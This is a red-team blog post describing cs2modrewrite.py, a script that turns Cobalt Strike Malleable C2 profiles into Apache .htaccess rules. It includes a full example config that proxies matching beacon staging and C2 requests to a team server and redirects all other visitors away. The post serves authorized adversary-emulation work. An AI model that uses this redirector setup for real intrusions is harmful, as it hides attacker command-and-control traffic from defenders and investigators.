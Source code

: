 # Automating Apache mod_rewrite and Cobalt Strike Malleable C2 Profiles

**Joe Vest | February 1, 2018 | Tweet This Post: [:fa-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/blogs/2018/02/automating-cobalt-strike-profiles-apache-mod_rewrite-htaccess-files-intelligent-c2-redirection/&text=Automating Cobalt Strike profiles with Apache mod_rewrite for intelligent redirection)**

![][1]

This post describes a script I created to convert a Cobalt Strike Malleable C2 profile to corresponding mod_rewrite rules to enable intelligent HTTP proxying for redirection of C2 traffic.  The script automates the [process][2] described by well known redteamer and now co-worker – Jeff Dimmock ([@bluscreenofjeff][3]). Intelligent use of C2 redirectors is core to a mature C2 architecture that can withstand some gentle investigation and prodding. Developing Cobalt Strike compatible mod_rewrite rules to redirect traffic is not incredibly difficult, but there are a few Apache "gotchas" and the process can be error prone when dealing with multiple C2 profiles. Automation improves consistency and reduces the time needed to spin-up, test, and troubleshoot a unique and layered C2 infrastructure. It is always nice to start from a known good.

## Highlights of cs2modrewrite.py

* Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. **Result**: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
* Uses a custom Malleable C2 profile to build a _.htaccess_ file with corresponding mod_rewrite rules
* Supports the most recent Cobalt Strike 3.10 profile features
* HTTP or HTTPS proxying to the Cobalt Strike Team Server
* HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick Start

## Usage

The script can be found at: 

### Arguments

```    
cs2modrewrite.py [-h] [-i INPUTFILE] [-c C2SERVER] [-d DESTINATION]

Converts Cobalt Strike profiles to Apache mod_rewrite .htaccess file format by
using the User-Agent and URI Endpoint to create rewrite rules. Make sure the
profile passes a c2lint check before running this sript.

optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver)
    -d DESTINATION  (Optional) Redirect to this URL (http://google.com)
```

### Example Output
    
```    
#### Save the following as .htaccess in the root web directory

########################################
## .htaccess START 
RewriteEngine On

## (Optional)
## Scripted Web Delivery 
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here
RewriteRule ^.*$ HTTPS://GOHERE/? [L,R=302]

## .htaccess END
########################################
```

## What does this .htaccess do?

### Staging

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and a 4 character URI, it proxies the traffic to the teamserver.

### C2 Traffic

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and one of the following URIs 

`(/include/template/isx.php._|/wp06/wp-includes/po.php._|/wp08/wp-includes/dtcla.php,/modules/mod_search.php,/blog/wp-includes/pomo/src.php,/includes/phpmailer/class.pop3.php,/api/516280565958,/api/516280565959)`

it proxies the traffic to the teamserver.

### Catch All

Any traffic that doesn't match a rule redirects the request using an HTTP 302

## Summary

**TLDR** The python script _cs2modrewrite.py_ automates the process of creating a Malleable C2 compatible .htaccess file for intelligent redirection with Apache mod_rewrite. Try it out and feel free to give feedback and suggestions at [@joevest][4] on Twitter and on the ThreatExpress GitHub [repo][5].

For more details on developing C2 architecture, check out the Red Team Infrastructure [Wiki][6].

## References

- https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
- https://twitter.com/bluscreenofjeff
- https://github.com/threatexpress/cs2modrewrite
- https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

  
[1]: /threatexpress/img/cs2modrewriteargs.png
[2]: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
[3]: https://twitter.com/bluscreenofjeff
[4]: https://www.twitter.com/joevest
[5]: https://github.com/threatexpress/cs2modrewrite
[6]: https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

  